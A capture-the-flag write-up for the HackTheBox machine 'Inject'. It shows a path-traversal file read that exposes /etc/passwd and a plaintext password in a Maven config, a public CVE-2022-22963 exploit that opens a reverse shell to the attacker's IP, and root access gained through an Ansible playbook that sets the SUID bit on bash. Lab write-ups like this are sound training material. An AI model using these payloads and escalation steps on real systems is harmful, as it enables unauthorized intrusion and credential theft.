

# <div align="center"> HackTheBox - [Inject](https://app.hackthebox.com/machines/Inject) Writeup </div>

## <div align="center"></div>

### <div align="center"> Machine by [rajHere](https://app.hackthebox.com/users/396413) | Released 2023-03-11 | Completed 2023-06-24 | Retired 2023-07-08 </div>

<div style="page-break-after: always;"></div>

## Summary
Inject is an Easy difficulty machine that demonstrates the risks of Local File Inclusion vulneraties.

<div style="page-break-after: always;"></div>

## Reconnaissance 

### Portscanning

>`sudo nmap -sSCV -p- --min-rate=5000 10.10.11.204`
```
Nmap scan report for 10.10.11.204
Host is up (0.049s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 caf10c515a596277f0a80c5c7c8ddaf8 (RSA)
|   256 d51c81c97b076b1cc1b429254b52219f (ECDSA)
|_  256 db1d8ceb9472b0d3ed44b96c93a7f91d (ED25519)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
|_http-open-proxy: Proxy might be redirecting requests
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
> Web Enumeration  

http://10.10.11.204:8080/upload

http://10.10.11.204:8080/show_image?img=webshell.php.jpg

> LFI

In Burp: `GET /show_image?img=../../../../../../../etc/passwd`

>`cat /etc/passwd`
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```
>`GET /show_image?img=../../../../../../../home/frank/`

shows us we can effectively ls by looking at directories

>`GET /show_image?img=../../../../../../../home/frank/.m2/settings.xml`

Gets us the password for phil but there is no rsa/dsa keys

``` xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

pom.xml shows us that there is a vulnerable version of spring framework.
>`GET /show_image?img=../../../../../../../var/www/WebApp/pom.xml`
``` xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>
	<parent>
		<groupId>org.springframework.boot</groupId>
		<artifactId>spring-boot-starter-parent</artifactId>
		<version>2.6.5</version>
		<relativePath/> <!-- lookup parent from repository -->
	</parent>
	<groupId>com.example</groupId>
	<artifactId>WebApp</artifactId>
	<version>0.0.1-SNAPSHOT</version>
	<name>WebApp</name>
	<description>Demo project for Spring Boot</description>
	<properties>
		<java.version>11</java.version>
	</properties>
	<dependencies>
		<dependency>
  			<groupId>com.sun.activation</groupId>
  			<artifactId>javax.activation</artifactId>
  			<version>1.2.0</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-thymeleaf</artifactId>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-web</artifactId>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-devtools</artifactId>
			<scope>runtime</scope>
			<optional>true</optional>
		</dependency>

		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
		</dependency>
		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>bootstrap</artifactId>
			<version>5.1.3</version>
		</dependency>
		<dependency>
			<groupId>org.webjars</groupId>
			<artifactId>webjars-locator-core</artifactId>
		</dependency>

	</dependencies>
	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
				<version>${parent.version}</version>
			</plugin>
		</plugins>
		<finalName>spring-webapp</finalName>
	</build>

</project>
```
[Vulnerability Writeup](https://0x1.gitlab.io/exploit/SpringBoot-RCE/)

[Public Exploit](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit/blob/main/exploit.py)

>`python3 exploit.py -u http://10.10.11.204:8080`

Output:
``` bash
[+] Target http://10.10.11.204:8080

[+] Checking if http://10.10.11.204:8080 is vulnerable to CVE-2022-22963...

[+] http://10.10.11.204:8080 is vulnerable

[/] Attempt to take a reverse shell? [y/n]y
listening on [any] 4444 ...
[$$] Attacker IP:  10.10.14.4
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.204] 59098
bash: cannot set terminal process group (811): Inappropriate ioctl for device
bash: no job control in this shell
frank@inject:/$ 
```

Stablize shell
>`python3 -c 'import pty; pty.spawn("/bin/bash")'`

login as phil
``` bash
su phil
password DocPhillovestoInject123
```
>`cat ~/user.txt`

ls /opt reveals /opt/automation/tasks directory with a playbook_1.yml which indicates we are using ansible

Create playbook .yml file to run our desired commands
>`echo -e "- hosts: localhost\n  tasks:\n    - name: ROOT\n      command: chmod u+s /bin/bash\n      become: true" > gotcha.yml`

wait a minute or so, maybe less

``` bash
bash -p
cat /root/root.txt
```
